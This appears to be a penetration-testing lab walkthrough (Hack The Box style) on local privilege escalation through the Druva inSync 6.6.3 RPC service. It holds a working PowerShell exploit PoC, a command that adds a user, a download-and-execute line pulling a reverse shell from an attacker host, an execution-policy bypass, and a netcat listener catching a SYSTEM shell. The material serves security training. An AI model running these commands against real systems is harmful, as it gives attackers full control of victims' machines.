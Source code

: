 # Vulnerable Services

**Enumerating Installed Programs**

```
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

The output looks mostly standard for a Windows 10 workstation. However, the `Druva inSync` application stands out. A quick Google search shows that version `6.6.3` is vulnerable to a command injection attack via an exposed RPC service. We may be able to use [this](https://www.exploit-db.com/exploits/49211) exploit PoC to escalate our privileges. From this [blog post](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/)
 which details the initial discovery of the flaw, we can see that Druva 
inSync is an application used for “Integrated backup, eDiscovery, and 
compliance monitoring,” and the client application runs a service in the
 context of the powerful `NT AUTHORITY\SYSTEM` account. Escalation is possible by interacting with a service running locally on port 6064.

**Enumerating Local Ports**

```
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

### Enumerating Process ID

Next, let's map the process ID (PID) `3324` back to the running process.

```powershell
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

### Enumerating Running Service

At this point, we have enough information to determine that the Druva
 inSync application is indeed installed and running, but we can do one 
last check using the `Get-Service` cmdlet.

```powershell
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

## Druva inSync Windows Client Local Privilege Escalation Example

### Druva inSync PowerShell PoC

With this information in hand, let's try out the exploit PoC, which is this short PowerShell snippet.

Code: powershell

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)

```

### Modifying PowerShell PoC

For our purposes, we want to modify the `$cmd` variable to
 our desired command. We can do many things here, such as adding a local
 admin user (which is a bit noisy, and we want to avoid modifying things
 on client systems wherever possible) or sending ourselves a reverse 
shell. Let's try this with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download the script to our attack box, and rename it something simple like `shell.ps1`.
 Open the file, and append the following at the bottom of the script 
file (changing the IP to match our address and listening port as well):

Vulnerable Services

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443

```

Modify the `$cmd` variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory.

Code: powershell

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"

```

### Starting a Python Web Server

Next, start a Python web server in the same directory where our `script.ps1` script resides.

Vulnerable Services

```
doshim@htb[/htb]$ python3 -m http.server 8080
```

### Catching a SYSTEM Shell

Finally, start a `Netcat` listener on the attack box and execute the PoC PowerShell script on the target host (after [modifying the PowerShell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy) with a command such as `Set-ExecutionPolicy Bypass -Scope Process`). We will get a reverse shell connection back with `SYSTEM` privileges if all goes to plan.

Vulnerable Services

```
doshim@htb[/htb]$ nc -lvnp 9443listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.7] 58611
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\WINDOWS\system32>whoami

nt authority\system

PS C:\WINDOWS\system32> hostname

WINLPE-WS01

```
